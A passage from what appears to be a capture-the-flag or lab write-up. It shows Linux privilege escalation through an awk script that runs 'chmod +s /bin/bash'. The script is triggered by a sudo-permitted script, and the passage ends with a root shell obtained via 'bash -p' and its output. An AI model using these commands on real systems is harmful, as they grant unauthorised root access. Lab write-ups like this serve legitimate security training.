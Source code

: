 **Let's create a file called `script.awk`!**
```awk
cat@ubuntu:~$ nano script.awk 
BEGIN{system("chmod +s /bin/bash")}
```

**What this `awk` script do is adding SUID sticky bit to `/bin/bash`, so that we can spawn a Bash shell with root permission.**

**Let's trigger the payload!**
```
cat@ubuntu:~$ sudo /home/patrick/.bank_work/script.sh
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

		***Hello, please enter the numerical hour
			for the time you want to investigate. 
		***Followed by AM or PM 
		***The Four digit date
		***And lastly the game.
	***These are the games: 
BlackJack
Roullette
TexasHoldEm



Example: 
8 AM 0310 BlackJack

 [!!]This is case sensitive.


~#8 AM 0310 BlackJack
~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~
```

**Confirm the payload worked:**
```
cat@ubuntu:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash
```

**Nice! Let's spawn a Bash shell with SUID privilege:**
```
cat@ubuntu:~$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
ubuntu
uid=1001(cat) gid=1001(cat) euid=0(root) egid=0(root) groups=0(root),1001(cat)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

